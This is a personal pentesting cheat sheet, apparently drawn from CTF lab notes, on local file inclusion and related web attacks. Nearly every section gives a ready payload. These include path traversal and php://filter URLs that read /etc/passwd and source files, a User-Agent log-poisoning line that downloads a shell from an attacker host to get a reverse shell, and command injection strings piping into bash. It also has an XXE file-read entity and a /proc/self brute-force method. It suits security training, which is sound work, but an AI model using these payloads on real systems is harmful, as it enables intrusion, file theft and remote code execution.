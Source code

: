 ```yaml
---
title: LFI 🎃
---
```

## Nice articcles to read

- [invicti.com](https://www.invicti.com/blog/web-security/local-file-inclusion-vulnerability/)
- [outpost24: lfi to RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

## Classic ones

- If you find the php code with the filter like:

```php
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

- You can just apply a filter like: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../etc/passwd`

## Adding parameter file to url

- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](Pasted%20image%2020240213235821.png)

## Fuzzing it

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```


## Bypassing filters with encodings


- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index

# example
http://mafialive.thm/test.php?view=//filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

- Check out the &ext variable and put it empty because it won't get the file extension

## Log poisoning

- To perform this, first check out if you have access to the log file in an apache with Burpsuite:



- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```


## Exploiting the User-Agent field

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

## Regex filtering

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```

## Web filtering

If a web shell filters your input, try to encode it into `base64`

![](Pasted%20image%2020240417160455.png)

- If it doesn't work, try some [Command Injection 💄](command_injection.md)

## XML file inclusion (XXE)

- If a web accepts XML, it could be vulnerable to XXE.
- You can try to upload a code like this to inspect the system:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Pavandeep</author>
  <com>Hacking Articles</com>
</comment>
```

- Change the `"file:///etc/passwd"` for the one you want

## Lfi to RCE

If you can read some files by some kind of escape, we can bruteforce the `/proc/self/` directory in Apache.

This directory holds information about different processes. Each process is distinguished by its PID as shown below:

![](Pasted%20image%2020240501160143.png)

Every process can access its available information by requesting the `/proc/self` directory.

As Apache is requesting this file (via the LFI vulnerability) and since the file is located inside Apache’s proc directory, we can use `/proc/self` instead of searching for Apache’s PID. In a brief recap we could say that `/proc/self/environ` is – roughly- equal to `/proc/<apache_pid>/environ`.

The contents of this directory are [symbolic links](https://www.nixtutor.com/freebsd/understanding-symbolic-links/) pointing to the actual file of the process’ open file handlers:

![](Pasted%20image%2020240501160310.png)

It goes without saying that during the attack we do not know which symbolic link points to which file. The file we will be interested in is the Apache [access log](https://httpd.apache.org/docs/2.4/logs.html#accesslog). We choose this file as it’s dynamic and can be changed based on our input.

To identify the file, we will use Burp Intruder.

> First, we set up the position of our payload.

![](Pasted%20image%2020240501160409.png)

> As File Descriptors are identified by a numeric id, we choose the proper payload. `Payloads > Payload type: Numbers`

![](Pasted%20image%2020240501160501.png)

> A successfull attack should look like:

![](Pasted%20image%2020240501161147.png)

Now we would perform a **Log Poisoning** attack.

## Path traversal

- Nice tool to use (automatic tool): [PathTraversal](https://github.com/gotr00t0day/PathTraversal)

Example:

```shell
https://invented-domain.com/image?filename=image.png
# You can perform
https://invented-domain.com/image?filename=....//....//....//etc/passwd
```

Otherwise, if you want to do it manual you can use BurpSuite and try some combinations.

## Blind OS command injection

If you've got this kind of request:

![](Pasted%20image%2020240513160938.png)

Use the following payload:

```shell
||whoami>>/var/www/images/results.txt||
```

![](Pasted%20image%2020240513161049.png)